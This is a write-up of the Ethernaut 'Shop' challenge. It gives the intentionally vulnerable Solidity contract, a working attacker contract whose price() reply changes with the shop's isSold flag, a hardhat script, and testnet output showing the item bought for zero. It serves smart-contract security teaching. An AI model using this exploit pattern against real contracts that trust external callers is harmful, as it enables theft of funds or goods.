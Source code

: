 ```yaml
---
title: Ethernaut Shop
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Shop challenge writeup
---
```


## Shop

### Challenge

Сan you get the item from the shop for less than the price asked?

#### Things that might help:

* `Shop` expects to be used from a `Buyer`
* Understanding restrictions of view functions


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

### Background

By the looks of it this challange is a bit akward. It does not seem to accomplish much by design, but after trying to solve it, the point of it is clear. In general it looks a lot like the `Elevator` challange. However, in this case the function is a `view` which means it cannot update the contract state. For the `Elevator` challange the contract state update was used as the main technique to change the return value.

In this case, since the state "cannot" be updated that easily, we could relly on "side-channel" techniques to achieve this such as measuring the remaining gas, or check other state changing variables. In this case such a variable exists and it is the `isSold` variable in the `Shop` contract.

I actually believe that if we where to skip all the compiler checks in solidity (if that is possible), or just write a function in raw EVM assembly, we could possibly bypass the `view` restriction and have a state changing function. However, I did not try this and I'm not sure it would work, I just don't clearly see why it wouldn't.

### Attack

Create a contract that implements the `Buyer` `interface`. This contract should be able to call the `Shop` contract `buy` function and return `100` or `0` for price depending if the `Shop` variable `isSold` is set or not. If the `isSold` is set, it should return `0` otherwise it should return `100`. This way, during the first check, the function will return `100` while at the second check it would return `0`.

* Create a contract that:
  * impelemnts the `Buyer` `interface` but when `price` is called, the price return would depend on the `Shop` contracts `isSold` variable
    * If `isSold` is `true` -> return `0`
    * If `isSold` is `false` -> return `100`
  * implements a `buy` function that triggers the `Shop` contract `buy` function
* Trigger the attacker contract `buy` function

#### ShopSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import "../challenges/Shop.sol";

contract ShopSolve {
    Shop shopContract;

    constructor(address payable _shop) public {
        shopContract = Shop(_shop);
    }

    function buy() public payable {
        shopContract.buy();
    }

    function price() external view returns (uint256) {
        if (shopContract.isSold()) {
            return 0;
        }
        return 100;
    }
}
```

#### shop-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    shopAddress = "0x7B710215cc6901910B2940D2CC8b5758eB7d70B7";
    contract = await ethers.getContractAt("Shop", shopAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    ShopSolve = await ethers.getContractFactory("ShopSolve");
    shopSolve = await ShopSolve.deploy(contract.address);
    await shopSolve.deployed();

    console.log("Level address : " + contract.address)
    console.log("Is Sold       : " + await contract.isSold())
    console.log("Price         : " + await contract.price())

    // trigger attacker contract buy function
    tx = await shopSolve.connect(account).buy()
    receipt = await tx.wait()

    console.log("Is Sold       : " + await contract.isSold())
    console.log("Price         : " + await contract.price())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/shop-solve.js --network rinkeby
Level address : 0x7B710215cc6901910B2940D2CC8b5758eB7d70B7
Is Sold       : false
Price         : 100
Is Sold       : true
Price         : 0
```

### Success Message

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.
